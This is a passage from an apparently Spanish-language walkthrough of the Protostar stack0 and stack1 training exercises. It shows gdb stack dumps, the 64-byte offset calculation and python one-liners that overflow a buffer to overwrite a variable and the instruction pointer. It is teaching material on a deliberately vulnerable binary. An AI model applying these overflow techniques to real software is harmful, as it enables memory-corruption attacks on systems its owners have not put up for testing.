 ```console
(gdb) x/24wx $esp -> Observamos unos cuantos registros de la pila.
0xbffff640:	0x08048529	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff650:	0xb7fd7ff4	0xb7ec6165	0xbffff668	0x41414141   -> Parece que nuestro input empieza aquí 0xbffff65c (0xbffff650+12)
0xbffff660:	0x41414141	0x00414141	0xbffff678	0x080482e8
...
0xbffff690:	0xb7ec6365	0xb7ff1040	0x0804845b	0x00000000   -> Y aquí está la varaible "modified" de antes (0xbffff69c)
```
Ahora con el desbordamiento.
```console
(gdb) run 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
Breakpoint alcanzado !
(gdb) x/24wx $esp
0xbffff640:	0x08048500	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff650:	0xb7fd7ff4	0xb7ec6165	0xbffff668	0x41414141
...
0xbffff690:	0x41414141	0x41414141	0x41414141	0x41414141 -> Ahora modified en vez de ser 0 es AAAA por tanto la hemos modificado.
(gdb) info registers
eip            0x41414141	0x41414141   
```
Como el puntero de insutrucción tambíen esta sobreescrito el programa corrompe, ya que la direccion 0x41414141 no existe.

```console
(gdb) p 0xbffff69c - 0xbffff65c -> Restamos la direccion de la varaible modified y en donde empezamos a escribir las "A"
$5 = 64 
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64)" | ./stack0
Try again?
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*68)" | ./stack0
you have changed the 'modified' variable -> Aquí hemos sobreescrito la varaible pero sin corromper el eip.
```
Como conclusión, si tenemos un trozo de memoria pensado para qel usaurio meta datos pero este escriba mas de la cuenta, 
puede sobreescribir otras datos en la memoria y modificar el programa por dentro.

---------------------------------------------------------------------------
# Sobreescribir una variable 

> [stack1](https://exploit.education/protostar/stack-one/)

Aquí también hay que sobreescribir una variable, pero en vez de que simplemente no sea 0, tiene que valer algo en concreto.
Nos piden en el código que valga "0x61626364" o sea como los bytes se dan la vuelta es "\x64\x63\x62\x61"
